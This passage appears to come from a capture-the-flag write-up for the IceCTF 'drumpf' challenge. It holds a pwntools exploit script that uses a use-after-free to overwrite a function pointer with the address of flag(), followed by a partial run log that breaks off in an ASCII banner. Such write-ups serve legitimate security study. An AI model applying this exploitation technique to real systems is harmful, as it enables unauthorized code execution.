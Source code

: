 ```
#!/usr/bin/env python

from pwn import *

r = remote("drumpf.vuln.icec.tf", 6502)
print r.recv()
print r.recv()


# book suite 1
buf = ""
buf += "1\n"
buf += "a"*8
buf += "\n"
buf += "1"*4
buf += "\n"
r.send(buf)
print r.recv()
print r.recv()

# delete suite 1
buf = ""
buf += "3\n"
r.send(buf)
print r.recv()
print r.recv()

# book room 1
buf = ""
buf += "2\n"
buf += "c"*8
buf += "\n"
buf += "134514237"        # address of flag() in base 10.
buf += "\n"
r.send(buf)
print r.recv()
print r.recv()

# print. this should call flag() instead of print_booking()
buf = ""
buf += "4\n"
r.send(buf)
print r.recv()
print r.recv()
```

And here it is in action:

```
$ ./sploit.py
[+] Opening connection to drumpf.vuln.icec.tf on port 6502: Done
 .----------------. .----------------. .----------------. .----------------. .----------------. .----------------.
| .--------------. | .--------------. | .--------------. | .--------------. | .--------------. | .--------------. |
| |  ________    | | |  _______     | | | _____  _____ | | | ____    ____ | | |   ______     | | |  _________   | |
| |              | | |              | | |              | | |              | | |              | | |              | |
| '--------------' | '--------------' | '--------------' | '--------------' | '--------------' | '--------------' |
 '----------------' '----------------' '----------------' '----------------' '----------------' '----------------'
          .----------------. .----------------. .---
```
